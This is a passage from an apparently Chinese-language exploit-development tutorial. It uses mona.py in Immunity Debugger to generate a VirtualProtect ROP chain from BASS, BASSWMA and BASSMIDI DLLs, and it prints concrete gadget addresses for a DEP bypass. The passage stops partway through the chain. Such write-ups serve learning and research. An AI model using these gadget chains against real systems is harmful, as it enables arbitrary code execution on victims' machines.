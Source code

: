 `immunity debugger`下执行以下命令：

```shell
!mona config -set workingfolder D:\Users\czx\NativeFiles\Desktop\blog\code\Exploitme-ROP\mona-log
!mona rop -m "bass,basswma,bassmidi" -cp nonull
```

成功执行，输出信息如下：

![immu-mona-rop](../pic/Exploitme-ROP/immu-mona-rop.png)

在日志目录下生成了以下几个文件：

![mona-log](../pic/Exploitme-ROP/mona-log.png)

查看`rop_chains.txt`，其中包含建议使用的`rop_chain`：

```
Register setup for VirtualProtect() :
--------------------------------------------
 EAX = NOP (0x90909090)
 ECX = lpOldProtect (ptr to W address)
 EDX = NewProtect (0x40)
 EBX = dwSize
 ESP = lPAddress (automatic)
 EBP = ReturnTo (ptr to jmp esp)
 ESI = ptr to VirtualProtect()
 EDI = ROP NOP (RETN)
 --- alternative chain ---
 EAX = ptr to &VirtualProtect()
 ECX = lpOldProtect (ptr to W address)
 EDX = NewProtect (0x40)
 EBX = dwSize
 ESP = lPAddress (automatic)
 EBP = POP (skip 4 bytes)
 ESI = ptr to JMP [EAX]
 EDI = ROP NOP (RETN)
 + place ptr to "jmp esp" on stack, below PUSHAD
 ...
 def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      #[---INFO:gadgets_to_set_esi:---]
      0x10015f82,  # POP EAX # RETN [BASS.dll] 
      0x1060e25c,  # ptr to &VirtualProtect() [IAT BASSMIDI.dll]
      0x1001eaf1,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [BASS.dll] 
      0x10030950,  # XCHG EAX,ESI # RETN [BASS.dll] 
      #[---INFO:gadgets_to_set_ebp:---]
      
      0x1001d748,  # POP EBP # RETN [BASS.dll] 
      0x1010539f,  # & jmp esp [BASSWMA.dll]
      #[---INFO:gadgets_to_set_ebx:---]
      0x10015f77,  # POP EAX # RETN [BASS.dll] 
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x10014db4,  # NEG EAX # RETN [BASS.dll] 
      0x10032f32,  # XCHG EAX,EBX # RETN 0x00 [BASS.dll] 
      #[---INFO:gadgets_to_set_edx:---]
      0x10015fe7,  # POP EAX # RETN [BASS.dll] 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x10014db4,  # NEG EAX # RETN [BASS.dll] 
      0x10038a6d,  # XCHG EAX,EDX # RETN [BASS.dll] 
      #[---INFO:gadgets_to_set_ecx:---]
      0x101012e0,  # POP ECX # RETN [BASSWMA.dll] 
      0x1003f0cc,  # &Writable location [BASS.dll]
      #[---INFO:gadgets_to_set_edi:---]
      0x10603658,  # POP EDI # RETN [BASSMIDI.dll] 
```